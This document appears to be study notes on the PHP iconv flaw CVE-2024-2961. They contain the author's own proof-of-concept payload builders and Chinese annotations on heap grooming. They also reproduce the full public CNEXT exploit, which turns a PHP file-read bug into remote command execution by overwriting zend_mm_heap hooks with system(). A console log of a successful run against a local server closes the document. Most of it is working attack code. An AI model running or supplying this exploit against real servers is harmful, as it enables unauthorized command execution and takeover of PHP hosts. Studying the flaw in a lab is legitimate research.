#!/usr/bin/env python3 # -*- coding=utf-8 -*- import zlib import base64 from pwn import * def p64(data: int) -> bytes: return int.to_bytes(data, 8, "little") # 该函数对数据进行zlib压缩，让php的zlib.inflate进行解压缩 def compress(data) -> bytes: """Returns data suitable for `zlib.inflate`. """ # Remove 2-byte header and 4-byte checksum return zlib.compress(data, 9)[2:-4] # 对数据纪念下quoted printable编码，php解码使用的是convert.quoted-printable-decode def qpe(data: bytes) -> bytes: """Emulates quoted-printable-encode. """ return "".join(f"={x:02x}" for x in data).upper().encode() # 最终填充到0x8000长度的数据 def compressed_bucket(data: bytes) -> bytes: """Returns a chunk of size 0x8000 that, when dechunked, returns the data.""" return chunked_chunk(data, 0x8000) # 进行HTTP CHUNKED编码，php使用dechunk def chunked_chunk(data: bytes, size: int = None) -> bytes: """Constructs a chunked representation of the given chunk. If size is given, the chunked representation has size `size`. For instance, `ABCD` with size 10 becomes: `0004\nABCD\n`. 没有指定size时，先加8预留字节 实际构造出的size还是传入data的长度 如果指定size，填充至指定size，实际size为data长度 说白了是否指定size，编码出长度都是data长度 但根据编码，如果指定了size，一般当前data长度小于0x100，则下一次chunk编码才会得到0x100长度的chunk """ # The caller does not care about the size: let's just add 8, which is more than # enough if size is None: size = len(data) + 8 print(hex(size)) print(data) keep = len(data) + len(b"\n\n") # 填充0 size = f"{len(data):x}".rjust(size - keep, "0") print(size) return size.encode() + b"\n" + data + b"\n" def chunked_add_bad_data(data: bytes, badData: bytes, totalsize: int)->bytes: ''' php处理dechunk的时候有一个问题，首先判断长度，只处理0-9, A-F, a-f这些字符。 如果判断非这些字符，就会判断为处理长度结束，接着会判断下一个字符是否是\r或者\n，如果不是则跳过。 这让我们可以在长度和\n之间注入其他字符，这些字符有以下要求，开始的值不能为十六进制，中间不能含有\n或者\r。 一个示例： b'00000010........\x00A\x00\x00\x00\x00\x00\x00AAAAAA\n000008\nAAAAAAAA\n\n' 这样往堆的0x10地址注入了0x4100 不过这种方案限制比较大，如果php的_zend_mm_heap地址包含0x0a或者0x0d，就不能用了 ''' dataSize = len(data) chunk = f"{dataSize:x}".rjust(8, "0") chunk = chunk.encode() + b"." * 8 + badData end = b"\n" + data + b"\n" chunk += b"A" * (totalsize - len(chunk) - len(end)) chunk += end assert len(chunk) == totalsize return chunk # 做了点修改，把chunk函数删除了，因为payload的构造不一样，所以使用chunk函数会有不同 def ptr_bucket(*ptrs, size=None) -> bytes: """Creates a 0x8000 chunk that reveals pointers after every step has been ran.""" if size is not None: assert len(ptrs) * 8 == size bucket = b"".join(map(p64, ptrs)) bucket = qpe(bucket) return bucket def buildPayload1() -> str: payload = b"" pages = ( payload ) resource = compress(pages) resource = base64.b64encode(resource) resource = f"data:text/plain;base64,{resource.decode()}" filters = [ "zlib.inflate", ] filters = "|".join(filters) path = f"php://filter/read={filters}/resource={resource}" return path def buildPayload2() -> str: heapSize = 0x100 step1 = b"A" * heapSize step1 = compressed_bucket(step1) pages = ( step1*5 ) resource = compress(pages) resource = base64.b64encode(resource) resource = f"data:text/plain;base64,{resource.decode()}" filters = [ # zlib解压缩 "zlib.inflate", # 让php分配0x100大小的堆 "dechunk", "convert.iconv.latin1.latin1" ] filters = "|".join(filters) path = f"php://filter/read={filters}/resource={resource}" return path def buildPayload3() -> str: heapSize = 0x100 step1 = b"A" * 0x10 step1 = chunked_chunk(step1, heapSize) print(step1.decode()) exit() step1 = compressed_bucket(step1) pages = ( step1*5 ) resource = compress(pages) resource = base64.b64encode(resource) resource = f"data:text/plain;base64,{resource.decode()}" filters = [ # zlib解压缩 "zlib.inflate", # 让php分配0x100大小的堆 "dechunk", "convert.iconv.latin1.latin1", # 释放0x100大小的堆 "dechunk", "convert.iconv.latin1.latin1" ] filters = "|".join(filters) path = f"php://filter/read={filters}/resource={resource}" return path def buildPayload4() -> str: ''' 我们把一次处理dechunk + convert.iconv.的过程算一步 ''' heapSize = 0x100 BUG = "劄".encode("utf-8") # 第一步申请0x100的堆，第二步释放 step1_malloc_step2_free = b"A" * 0x10 # 第三次dechunk，长度小于0x100 step1_malloc_step2_free = chunked_chunk(step1_malloc_step2_free) # 第二次dechunk，长度小于0x100 step1_malloc_step2_free = chunked_chunk(step1_malloc_step2_free, heapSize) # 第一次dechunk，长度等于0x100 step1_malloc_step2_free = compressed_bucket(step1_malloc_step2_free) # 第二步申请0x100的堆，第三步释放 step2_malloc_step3_free = b"B" * 0x20 # 第三次dechunk，长度小于0x100 step2_malloc_step3_free = chunked_chunk(step2_malloc_step3_free, heapSize) # 第二次dechunk，长度等于0x100 step2_malloc_step3_free = chunked_chunk(step2_malloc_step3_free) # 第一次dechunk，长度大于0x100 step2_malloc_step3_free = compressed_bucket(step2_malloc_step3_free) # 第三步触发bug step3_trigger_bug = (0x100 - len(BUG)) * b"\x00" + BUG # 确保长度为0x100 assert len(step3_trigger_bug) == 0x100 # 第三次dechunk，长度等于0x100 step3_trigger_bug = chunked_chunk(step3_trigger_bug) # 第二次dechunk，长度大于0x100 step3_trigger_bug = chunked_chunk(step3_trigger_bug) # 第一次dechunk，长度大于0x100 step3_trigger_bug = compressed_bucket(step3_trigger_bug) pages = ( step1_malloc_step2_free * 3 + step2_malloc_step3_free * 2 + step3_trigger_bug ) resource = compress(pages) resource = base64.b64encode(resource) resource = f"data:text/plain;base64,{resource.decode()}" filters = [ # zlib解压缩 "zlib.inflate", # 第一步 "dechunk", "convert.iconv.latin1.latin1", # 第二步 "dechunk", "convert.iconv.latin1.latin1", # 第三步触发漏洞 "dechunk", "convert.iconv.UTF-8.ISO-2022-CN-EXT" ] filters = "|".join(filters) path = f"php://filter/read={filters}/resource={resource}" return path def buildPayload5() -> str: ''' 我们把一次处理dechunk + convert.iconv.的过程算一步 ''' heapSize = 0x100 BUG = "劄".encode("utf-8") # _zend_mm_heap基地址 zend_heap_base = 0x7ffff5800040 # libc 的基地址 libc_base = 0x7ffff7aa9000 CMD = "ls -alF" # 第一步申请0x100的堆，第二步释放 # 第三次dechunk，长度小于0x100 step1_malloc_step2_free = chunked_add_bad_data(b"A" * 8, p64(zend_heap_base + 0x10) * 10, 0xA0) # 第二次dechunk，长度小于0x100 step1_malloc_step2_free = chunked_chunk(step1_malloc_step2_free, heapSize) # 第一次dechunk，长度等于0x100 step1_malloc_step2_free = compressed_bucket(step1_malloc_step2_free) # 第二步申请0x100的堆，第三步释放 step2_malloc_step3_free = b"B" * 0x20 # 第三次dechunk，长度小于0x100 step2_malloc_step3_free = chunked_chunk(step2_malloc_step3_free, heapSize) # 第二次dechunk，长度等于0x100 step2_malloc_step3_free = chunked_chunk(step2_malloc_step3_free) # 第一次dechunk，长度大于0x100 step2_malloc_step3_free = compressed_bucket(step2_malloc_step3_free) # 第三步触发bug step3_trigger_bug = (0x100 - len(BUG)) * b"\x00" + BUG # 确保长度为0x100 assert len(step3_trigger_bug) == 0x100 # 第三次dechunk，长度等于0x100 step3_trigger_bug = chunked_chunk(step3_trigger_bug) # 第二次dechunk，长度大于0x100 step3_trigger_bug = chunked_chunk(step3_trigger_bug) # 第一次dechunk，长度大于0x100 step3_trigger_bug = compressed_bucket(step3_trigger_bug) # 第三次dechunk, 0\n # step3_trailer_chunk = b"0\n".ljust(0x48, b"\x00") + p64(zend_heap_base + 0x10) # step3_trailer_chunk += b"\x00" * (heapSize - len(step3_trailer_chunk)) # # 第二次dechunk，长度等于0x100 # step3_trailer_chunk = chunked_chunk(step3_trailer_chunk) # # 第一次dechunk，长度大于0x100 # step3_trailer_chunk = compressed_bucket(step3_trailer_chunk) # 第四步 申请0x100堆块 覆盖_zend_mm_heap step4_write_zend_heap = ptr_bucket( 0x200000, 0, # free_slot 0, 0, zend_heap_base + 0x168, # 0x18 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, zend_heap_base, # 0x140 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, size=0x100, ) step4_write_zend_heap = chunked_chunk(step4_write_zend_heap) step4_write_zend_heap = chunked_chunk(step4_write_zend_heap) step4_write_zend_heap = compressed_bucket(step4_write_zend_heap) LIBC = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6", checksec=False) # /usr/lib/x86_64-linux-gnu/libc.so.6 mallocAddr = libc_base + LIBC.symbols["__libc_malloc"] systemAddr = libc_base + LIBC.symbols["__libc_system"] # 0x7ffff7af9d60 reallocAddr = libc_base + LIBC.symbols["__libc_realloc"] print("systemAddr: ", hex(systemAddr)) # 第四步申请0x18堆块 覆盖custom heap step4_write_custom_heap = ptr_bucket( mallocAddr, systemAddr, reallocAddr, size=0x18 ) step4_write_custom_heap = chunked_chunk(step4_write_custom_heap) step4_write_custom_heap = chunked_chunk(step4_write_custom_heap) step4_write_custom_heap = compressed_bucket(step4_write_custom_heap) # 第四步申请0x140堆块 命令写入chunk中 step4_use_custom_heap_and_cmd = b"kill -9 $PPID; " + CMD.encode() step4_use_custom_heap_and_cmd = step4_use_custom_heap_and_cmd.ljust(0x140, b"\x00") step4_use_custom_heap_and_cmd = qpe(step4_use_custom_heap_and_cmd) step4_use_custom_heap_and_cmd = chunked_chunk(step4_use_custom_heap_and_cmd) step4_use_custom_heap_and_cmd = chunked_chunk(step4_use_custom_heap_and_cmd) step4_use_custom_heap_and_cmd = compressed_bucket(step4_use_custom_heap_and_cmd) pages = ( step4_write_zend_heap * 4 + step4_write_custom_heap + step4_use_custom_heap_and_cmd + step1_malloc_step2_free * 3 + step2_malloc_step3_free * 2 + step3_trigger_bug ) resource = compress(pages) resource = base64.b64encode(resource) resource = f"data:text/plain;base64,{resource.decode()}" filters = [ # zlib解压缩 "zlib.inflate", # 第一步 "dechunk", "convert.iconv.latin1.latin1", # 第二步 "dechunk", "convert.iconv.latin1.latin1", # 第三步触发漏洞 "dechunk", "convert.iconv.UTF-8.ISO-2022-CN-EXT", # 第四步，写入数据然后执行命令 "convert.quoted-printable-decode", "convert.iconv.latin1.latin1", ] filters = "|".join(filters) path = f"php://filter/read={filters}/resource={resource}" return path def f(idx): filename = "tmp" if idx == 1: path = buildPayload1() filename = "poc1.php" elif idx == 2: path = buildPayload2() filename = "poc2.php" elif idx == 3: path = buildPayload3() filename = "poc3.php" elif idx == 4: path = buildPayload4() filename = "poc4.php" elif idx == 5: path = buildPayload5() filename = "poc5.php" else: raise Exception(f"invalid idx = {idx}!") phpCode = f"""<?php $poc = "{path}"; $data = file_get_contents($poc); var_dump($data); ?>""" with open(filename, "w") as f: f.write(phpCode) print(filename, " ====> ", path) if __name__ == "__main__": for i in range(1, 6): f(i)
convert.quoted-printable-decode
将形如=A0转换为对应字节码
dechunk+iconv 第一次： step1_malloc_step2_free*3 申请0x100三个chunk A->B->C 第二次： step1_malloc_step2_free*3 依次释放三个0x100的chunkABC，freeslot: C->B->A step2_malloc_step3_free*2 依次申请两个0x100的chunk C B 第三次 step2_malloc_step3_free*2 依次释放两个0x100 chunkCB，freeslot:B->C->A(0x100) step3_trigger_bug 申请0x100 chunk B，触发iconv 越界写入一字节0x48 此时free_slot布局：B->C->A_0x48(0x148)->_zend_mm_heap (再申请四次即可覆写堆管理区域) 第四次 step4_write_zend_heap 先申请四个0x100 chunk 覆写free_slot（0x18 0x140） step4_write_custom_heap 申请0x18 chunk，custom_heap中free指针处写入system地址 step4_use_custom_heap_and_cmd 申请0x140 chunk 写入待执行命令
out_buf_size 原始buf长度
ocnt 剩余空间
strconvert后通过out_buf_size-ocnt计算使用空间，更新bucket->buflen
之后再次iconv convert 根据更新后的bucket->buflen，申请内存存储内容作为新bucket
经过quoted-printable-encode编码的chunk经过解码才会变为原始大小 触发对应大小申请逻辑 
exp
通过读取/proc/self/map获取内存地址
#!/usr/bin/env python3 # # CNEXT: PHP file-read to RCE (CVE-2024-2961) # Date: 2024-05-27 # Author: Charles FOL @cfreal_ (LEXFO/AMBIONICS) # # TODO Parse LIBC to know if patched # # INFORMATIONS # # To use, implement the Remote class, which tells the exploit how to send the payload. # from __future__ import annotations import base64 import zlib from dataclasses import dataclass from requests.exceptions import ConnectionError, ChunkedEncodingError from pwn import * from ten import * HEAP_SIZE = 2 * 1024 * 1024 BUG = "劄".encode("utf-8") class Remote: """A helper class to send the payload and download files. The logic of the exploit is always the same, but the exploit needs to know how to download files (/proc/self/maps and libc) and how to send the payload. The code here serves as an example that attacks a page that looks like: ```php <?php $data = file_get_contents($_POST['file']); echo "File contents: $data"; ``` Tweak it to fit your target, and start the exploit. """ def __init__(self, url: str) -> None: self.url = url self.session = Session() def send(self, path: str) -> Response: """Sends given `path` to the HTTP server. Returns the response. """ return self.session.post(self.url, data={"file": path}) def download(self, path: str) -> bytes: """Returns the contents of a remote file. """ path = f"php://filter/convert.base64-encode/resource={path}" response = self.send(path) data = response.re.search(b"File contents: (.*)", flags=re.S).group(1) return base64.decode(data) @entry @arg("url", "Target URL") @arg("command", "Command to run on the system; limited to 0x140 bytes") @arg("sleep", "Time to sleep to assert that the exploit worked. By default, 1.") @arg("heap", "Address of the main zend_mm_heap structure.") @arg( "pad", "Number of 0x100 chunks to pad with. If the website makes a lot of heap " "operations with this size, increase this. Defaults to 20.", ) @dataclass class Exploit: """CNEXT exploit: RCE using a file read primitive in PHP.""" url: str command: str sleep: int = 1 heap: str = None pad: int = 20 def __post_init__(self): self.remote = Remote(self.url) self.log = logger("EXPLOIT") self.info = {} self.heap = self.heap and int(self.heap, 16) def check_vulnerable(self) -> None: """Checks whether the target is reachable and properly allows for the various wrappers and filters that the exploit needs. """ def safe_download(path: str) -> bytes: try: return self.remote.download(path) except ConnectionError: failure("Target not [b]reachable[/] ?") def check_token(text: str, path: str) -> bool: result = safe_download(path) return text.encode() == result text = tf.random.string(50).encode() base64 = b64(text, misalign=True).decode() path = f"data:text/plain;base64,{base64}" result = safe_download(path) if text not in result: msg_failure("Remote.download did not return the test string") print("--------------------") print(f"Expected test string: {text}") print(f"Got: {result}") print("--------------------") failure("If your code works fine, it means that the [i]data://[/] wrapper does not work") msg_info("The [i]data://[/] wrapper works") text = tf.random.string(50) base64 = b64(text.encode(), misalign=True).decode() path = f"php://filter//resource=data:text/plain;base64,{base64}" if not check_token(text, path): failure("The [i]php://filter/[/] wrapper does not work") msg_info("The [i]php://filter/[/] wrapper works") text = tf.random.string(50) base64 = b64(compress(text.encode()), misalign=True).decode() path = f"php://filter/zlib.inflate/resource=data:text/plain;base64,{base64}" if not check_token(text, path): failure("The [i]zlib[/] extension is not enabled") msg_info("The [i]zlib[/] extension is enabled") msg_success("Exploit preconditions are satisfied") def get_file(self, path: str) -> bytes: with msg_status(f"Downloading [i]{path}[/]..."): return self.remote.download(path) def get_regions(self) -> list[Region]: """Obtains the memory regions of the PHP process by querying /proc/self/maps.""" maps = self.get_file("/proc/self/maps") maps = maps.decode() PATTERN = re.compile( r"^([a-f0-9]+)-([a-f0-9]+)\b" r".*" r"\s([-rwx]{3}[ps])\s" r"(.*)" ) regions = [] for region in table.split(maps, strip=True): if match := PATTERN.match(region): start = int(match.group(1), 16) stop = int(match.group(2), 16) permissions = match.group(3) path = match.group(4) if "/" in path or "[" in path: path = path.rsplit(" ", 1)[-1] else: path = "" current = Region(start, stop, permissions, path) regions.append(current) else: print(maps) failure("Unable to parse memory mappings") self.log.info(f"Got {len(regions)} memory regions") return regions def get_symbols_and_addresses(self) -> None: """Obtains useful symbols and addresses from the file read primitive.""" regions = self.get_regions() LIBC_FILE = "/dev/shm/cnext-libc" # PHP's heap self.info["heap"] = self.heap or self.find_main_heap(regions) # Libc libc = self._get_region(regions, "libc-", "libc.so") self.download_file(libc.path, LIBC_FILE) self.info["libc"] = ELF(LIBC_FILE, checksec=False) self.info["libc"].address = libc.start def _get_region(self, regions: list[Region], *names: str) -> Region: """Returns the first region whose name matches one of the given names.""" for region in regions: if any(name in region.path for name in names): break else: failure("Unable to locate region") return region def download_file(self, remote_path: str, local_path: str) -> None: """Downloads `remote_path` to `local_path`""" data = self.get_file(remote_path) Path(local_path).write(data) def find_main_heap(self, regions: list[Region]) -> Region: # Any anonymous RW region with a size superior to the base heap size is a # candidate. The heap is at the bottom of the region. heaps = [ region.stop - HEAP_SIZE + 0x40 for region in reversed(regions) if region.permissions == "rw-p" and region.size >= HEAP_SIZE and region.stop & (HEAP_SIZE-1) == 0 and region.path in ("", "[anon:zend_alloc]") ] if not heaps: failure("Unable to find PHP's main heap in memory") first = heaps[0] if len(heaps) > 1: heaps = ", ".join(map(hex, heaps)) msg_info(f"Potential heaps: [i]{heaps}[/] (using first)") else: msg_info(f"Using [i]{hex(first)}[/] as heap") return first def run(self) -> None: self.check_vulnerable() self.get_symbols_and_addresses() self.exploit() def build_exploit_path(self) -> str: """On each step of the exploit, a filter will process each chunk one after the other. Processing generally involves making some kind of operation either on the chunk or in a destination chunk of the same size. Each operation is applied on every single chunk; you cannot make PHP apply iconv on the first 10 chunks and leave the rest in place. That's where the difficulties come from. Keep in mind that we know the address of the main heap, and the libraries. ASLR/PIE do not matter here. The idea is to use the bug to make the freelist for chunks of size 0x100 point lower. For instance, we have the following free list: ... -> 0x7fffAABBCC900 -> 0x7fffAABBCCA00 -> 0x7fffAABBCCB00 By triggering the bug from chunk ..900, we get: ... -> 0x7fffAABBCCA00 -> 0x7fffAABBCCB48 -> ??? That's step 3. Now, in order to control the free list, and make it point whereever we want, we need to have previously put a pointer at address 0x7fffAABBCCB48. To do so, we'd have to have allocated 0x7fffAABBCCB00 and set our pointer at offset 0x48. That's step 2. Now, if we were to perform step2 an then step3 without anything else, we'd have a problem: after step2 has been processed, the free list goes bottom-up, like: 0x7fffAABBCCB00 -> 0x7fffAABBCCA00 -> 0x7fffAABBCC900 We need to go the other way around. That's why we have step 1: it just allocates chunks. When they get freed, they reverse the free list. Now step2 allocates in reverse order, and therefore after step2, chunks are in the correct order. Another problem comes up. To trigger the overflow in step3, we convert from UTF-8 to ISO-2022-CN-EXT. Since step2 creates chunks that contain pointers and pointers are generally not UTF-8, we cannot afford to have that conversion happen on the chunks of step2. To avoid this, we put the chunks in step2 at the very end of the chain, and prefix them with `0\n`. When dechunked (right before the iconv), they will "disappear" from the chain, preserving them from the character set conversion and saving us from an unwanted processing error that would stop the processing chain. After step3 we have a corrupted freelist with an arbitrary pointer into it. We don't know the precise layout of the heap, but we know that at the top of the heap resides a zend_mm_heap structure. We overwrite this structure in two ways. Its free_slot[] array contains a pointer to each free list. By overwriting it, we can make PHP allocate chunks whereever we want. In addition, its custom_heap field contains pointers to hook functions for emalloc, efree, and erealloc (similarly to malloc_hook, free_hook, etc. in the libc). We overwrite them and then overwrite the use_custom_heap flag to make PHP use these function pointers instead. We can now do our favorite CTF technique and get a call to system(<chunk>). We make sure that the "system" command kills the current process to avoid other system() calls with random chunk data, leading to undefined behaviour. The pad blocks just "pad" our allocations so that even if the heap of the process is in a random state, we still get contiguous, in order chunks for our exploit. Therefore, the whole process described here CANNOT crash. Everything falls perfectly in place, and nothing can get in the middle of our allocations. """ LIBC = self.info["libc"] ADDR_EMALLOC = LIBC.symbols["__libc_malloc"] ADDR_EFREE = LIBC.symbols["__libc_system"] ADDR_EREALLOC = LIBC.symbols["__libc_realloc"] ADDR_HEAP = self.info["heap"] ADDR_FREE_SLOT = ADDR_HEAP + 0x20 ADDR_CUSTOM_HEAP = ADDR_HEAP + 0x0168 ADDR_FAKE_BIN = ADDR_FREE_SLOT - 0x10 CS = 0x100 # Pad needs to stay at size 0x100 at every step pad_size = CS - 0x18 pad = b"\x00" * pad_size pad = chunked_chunk(pad, len(pad) + 6) pad = chunked_chunk(pad, len(pad) + 6) pad = chunked_chunk(pad, len(pad) + 6) pad = compressed_bucket(pad) step1_size = 1 step1 = b"\x00" * step1_size step1 = chunked_chunk(step1) step1 = chunked_chunk(step1) step1 = chunked_chunk(step1, CS) step1 = compressed_bucket(step1) # Since these chunks contain non-UTF-8 chars, we cannot let it get converted to # ISO-2022-CN-EXT. We add a `0\n` that makes the 4th and last dechunk "crash" step2_size = 0x48 step2 = b"\x00" * (step2_size + 8) step2 = chunked_chunk(step2, CS) step2 = chunked_chunk(step2) step2 = compressed_bucket(step2) step2_write_ptr = b"0\n".ljust(step2_size, b"\x00") + p64(ADDR_FAKE_BIN) step2_write_ptr = chunked_chunk(step2_write_ptr, CS) step2_write_ptr = chunked_chunk(step2_write_ptr) step2_write_ptr = compressed_bucket(step2_write_ptr) step3_size = CS step3 = b"\x00" * step3_size assert len(step3) == CS step3 = chunked_chunk(step3) step3 = chunked_chunk(step3) step3 = chunked_chunk(step3) step3 = compressed_bucket(step3) step3_overflow = b"\x00" * (step3_size - len(BUG)) + BUG assert len(step3_overflow) == CS step3_overflow = chunked_chunk(step3_overflow) step3_overflow = chunked_chunk(step3_overflow) step3_overflow = chunked_chunk(step3_overflow) step3_overflow = compressed_bucket(step3_overflow) step4_size = CS step4 = b"=00" + b"\x00" * (step4_size - 1) step4 = chunked_chunk(step4) step4 = chunked_chunk(step4) step4 = chunked_chunk(step4) step4 = compressed_bucket(step4) # This chunk will eventually overwrite mm_heap->free_slot # it is actually allocated 0x10 bytes BEFORE it, thus the two filler values step4_pwn = ptr_bucket( 0x200000, 0, # free_slot 0, 0, ADDR_CUSTOM_HEAP, # 0x18 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, ADDR_HEAP, # 0x140 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, size=CS, ) step4_custom_heap = ptr_bucket( ADDR_EMALLOC, ADDR_EFREE, ADDR_EREALLOC, size=0x18 ) step4_use_custom_heap_size = 0x140 COMMAND = self.command COMMAND = f"kill -9 $PPID; {COMMAND}" if self.sleep: COMMAND = f"sleep {self.sleep}; {COMMAND}" COMMAND = COMMAND.encode() + b"\x00" assert ( len(COMMAND) <= step4_use_custom_heap_size ), f"Command too big ({len(COMMAND)}), it must be strictly inferior to {hex(step4_use_custom_heap_size)}" COMMAND = COMMAND.ljust(step4_use_custom_heap_size, b"\x00") step4_use_custom_heap = COMMAND step4_use_custom_heap = qpe(step4_use_custom_heap) step4_use_custom_heap = chunked_chunk(step4_use_custom_heap) step4_use_custom_heap = chunked_chunk(step4_use_custom_heap) step4_use_custom_heap = chunked_chunk(step4_use_custom_heap) step4_use_custom_heap = compressed_bucket(step4_use_custom_heap) pages = ( step4 * 3 + step4_pwn + step4_custom_heap + step4_use_custom_heap + step3_overflow # + pad * self.pad + step1 * 3 + step2_write_ptr + step2 * 2 ) resource = compress(compress(pages)) resource = b64(resource) resource = f"data:text/plain;base64,{resource.decode()}" filters = [ # Create buckets "zlib.inflate", "zlib.inflate", # Step 0: Setup heap "dechunk", "convert.iconv.L1.L1", # Step 1: Reverse FL order "dechunk", "convert.iconv.L1.L1", # Step 2: Put fake pointer and make FL order back to normal "dechunk", "convert.iconv.L1.L1", # Step 3: Trigger overflow "dechunk", "convert.iconv.UTF-8.ISO-2022-CN-EXT", # Step 4: Allocate at arbitrary address and change zend_mm_heap "convert.quoted-printable-decode", "convert.iconv.L1.L1", ] filters = "|".join(filters) path = f"php://filter/read={filters}/resource={resource}" return path @inform("Triggering...") def exploit(self) -> None: path = self.build_exploit_path() start = time.time() try: self.remote.send(path) except (ConnectionError, ChunkedEncodingError): pass msg_print() if not self.sleep: msg_print(" [b white on black] EXPLOIT [/][b white on green] SUCCESS [/] [i](probably)[/]") elif start + self.sleep <= time.time(): msg_print(" [b white on black] EXPLOIT [/][b white on green] SUCCESS [/]") else: # Wrong heap, maybe? If the exploited suggested others, use them! msg_print(" [b white on black] EXPLOIT [/][b white on red] FAILURE [/]") msg_print() def compress(data) -> bytes: """Returns data suitable for `zlib.inflate`. """ # Remove 2-byte header and 4-byte checksum return zlib.compress(data, 9)[2:-4] def b64(data: bytes, misalign=True) -> bytes: payload = base64.encode(data) if not misalign and payload.endswith("="): raise ValueError(f"Misaligned: {data}") return payload.encode() def compressed_bucket(data: bytes) -> bytes: """Returns a chunk of size 0x8000 that, when dechunked, returns the data.""" return chunked_chunk(data, 0x8000) def qpe(data: bytes) -> bytes: """Emulates quoted-printable-encode. """ return "".join(f"={x:02x}" for x in data).upper().encode() def ptr_bucket(*ptrs, size=None) -> bytes: """Creates a 0x8000 chunk that reveals pointers after every step has been ran.""" if size is not None: assert len(ptrs) * 8 == size bucket = b"".join(map(p64, ptrs)) bucket = qpe(bucket) bucket = chunked_chunk(bucket) bucket = chunked_chunk(bucket) bucket = chunked_chunk(bucket) bucket = compressed_bucket(bucket) return bucket def chunked_chunk(data: bytes, size: int = None) -> bytes: """Constructs a chunked representation of the given chunk. If size is given, the chunked representation has size `size`. For instance, `ABCD` with size 10 becomes: `0004\nABCD\n`. """ # The caller does not care about the size: let's just add 8, which is more than # enough if size is None: size = len(data) + 8 keep = len(data) + len(b"\n\n") size = f"{len(data):x}".rjust(size - keep, "0") return size.encode() + b"\n" + data + b"\n" @dataclass class Region: """A memory region.""" start: int stop: int permissions: str path: str @property def size(self) -> int: return self.stop - self.start Exploit()
ayoung@ayoung:~/iconv$ python exp2.py http://127.0.0.1:8888/index.php "id>/tmp/hack" [*] The data:// wrapper works [*] The php://filter/ wrapper works [*] The zlib extension is enabled [+] Exploit preconditions are satisfied [*] Using 0x7f2a87400040 as heap EXPLOIT SUCCESS